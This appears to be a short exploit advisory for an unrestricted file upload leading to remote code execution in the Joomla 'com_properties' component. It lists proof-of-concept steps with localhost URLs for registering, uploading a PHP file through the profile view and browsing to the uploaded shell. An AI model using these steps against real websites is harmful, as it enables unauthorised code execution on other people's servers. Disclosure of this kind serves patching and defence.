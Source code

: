 
#Exploit Title: Joomla Component 'com_properties' File Upload/RCE

* Google Dork: NA


* Exploit Author: Und3r-r00t

* Tested on: Centos

* PoC  
  * register and login
  `http://localhost/index.php?option=com_user&task=register&Itemid=`
  
  `http://localhost/index.php?option=com_user&view=login`

  * Upload File 
  `http://localhost/index.php?option=com_properties&amp;view=profile&amp;Itemid=19`

  * File path
  `http://localhost/images/properties/profiles/rce.php`



`twitter - @p33rl`
